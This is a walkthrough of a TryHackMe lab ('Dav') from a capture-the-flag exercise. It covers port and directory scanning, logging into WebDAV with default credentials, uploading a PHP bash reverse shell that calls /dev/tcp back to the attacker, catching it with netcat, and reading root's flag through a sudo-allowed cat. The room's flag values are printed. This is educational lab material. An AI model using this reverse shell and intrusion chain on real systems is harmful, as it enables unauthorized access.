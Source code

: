 ## Dav - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtdav)

**IP: 10.10.252.247**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.252.247

  Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-03 14:59 BST
  Warning: 10.10.252.247 giving up on port because retransmission cap hit (2).
  Nmap scan report for 10.10.252.247
  Host is up (0.047s latency).
  Not shown: 65470 closed tcp ports (reset), 64 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 56.28 seconds
  ```
  
- Since it has web page, now I do Gobuster.
  ```
  gobuster dir -u http://10.10.252.247 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /webdav               (Status: 401) [Size: 460]
  /server-status        (Status: 403) [Size: 301]
  Progress: 220560 / 220561 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- Now, I visited `server-status` and it wasn't helpful, but `webdav` was. it has a login page which is exploitable and my only access to the target.
  
---

## ⚙️ Shell Access

- So I spent a pretty decent amount of time looking for different exploits. At the end I just googled `webdav default login credentials` and found [this page](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) that has default login credentials and command to upload files!
  ```
  wampp
  xampp

  cadaver http://<REMOTE HOST>/webdav/
  ```
  
- That actually worked! Since I'm in, I found `passwd.dav` that contains password for `wampp`. Now I started uploading shells, I was trying so hard to make this [Pentest Monkey shell](https://github.com/pentestmonkey/php-reverse-shell) work but I couldn't do it...
  
- Then I decided to change the shell and found this one liner which is DA GOAT!!! DA GOAT !!! 🐐
  ```
  nano phpreverse.php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/[PORT] 0>&1'");
  ```

- Now upload the shell, start the listener and then visit the `webdav` and open the shell. Voila, you are in!
  ```
  cadaver http://10.10.252.247/webdav/ 

  Authentication required for webdav on server `10.10.252.247':
  Username: wampp
  Password: 
  dav:/webdav/> help
  Available commands: 
   ls         cd         pwd        put        get        mget       mput       
   edit       less       mkcol      cat        delete     rmcol      copy       
   move       rename     lock       unlock     discover   steal      showlocks  
   version    checkin    checkout   uncheckout history    label      propnames  
   chexec     propget    propdel    propset    search     set        open       
   close      echo       quit       unset      lcd        lls        lpwd       
   logout     help       describe   about      
  Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye

  dav:/webdav/> put phpreverse.php
  Uploading phpreverse.php to `/webdav/phpreverse.php':
  Progress: [=============================>] 100.0% of 74 bytes succeeded.
  dav:/webdav/> ls
  Listing collection `/webdav/': succeeded.
          2php-reverse-shell.php              5495  May  3 16:10
          passwd.dav                            44  Aug 26  2019
          php-reverse-shell.php               5495  May  3 16:08
          phpreverse.php                        74  May  3 16:16
          reverse-shell.php                   5492  May  3 16:05
  dav:/webdav/> 
  ```

  ```
  nc -lvnp 4444

  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.252.247] 36462
  bash: cannot set terminal process group (708): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@ubuntu:/var/www/html/webdav$
  ```

- Awesome! Now lets find those flags.

---

## 🧍 User Privilege Escalation

- You can get the user flag with two simple commands.
  ```
  www-data@ubuntu:/var/www/html/webdav$ find / -name user.txt 2>/dev/null
  find / -name user.txt 2>/dev/null
  /home/merlin/user.txt
  
  www-data@ubuntu:/var/www/html/webdav$ cat /home/merlin/user.txt
  cat /home/merlin/user.txt
  449b40fe93f78a938523b7e4dcd66d2a
  ```
  
- Now going for root flag.

---

## 👑 Root Privilege Escalation

- OK, I'm gonna say this right now, this was the easiest root flag ever made period. Just use `sudo -l` and you'll see...
  ```
  www-data@ubuntu:/var/www/html/webdav$ sudo -l
  sudo -l
  Matching Defaults entries for www-data on ubuntu:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on ubuntu:
      (ALL) NOPASSWD: /bin/cat
  
  www-data@ubuntu:/var/www/html/webdav$ sudo cat /root/root.txt
  sudo cat /root/root.txt
  101101ddc16b0cdf65ba0b8a7af7afa5
  ```
  
- TOLD YA, BYE! 💋

---

## 🏁 Flags

- **User Flag**: `449b40fe93f78a938523b7e4dcd66d2a`
- **Root Flag**: `101101ddc16b0cdf65ba0b8a7af7afa5`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Mastering googling...`

- What did I learn?
  `Never give up, never!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
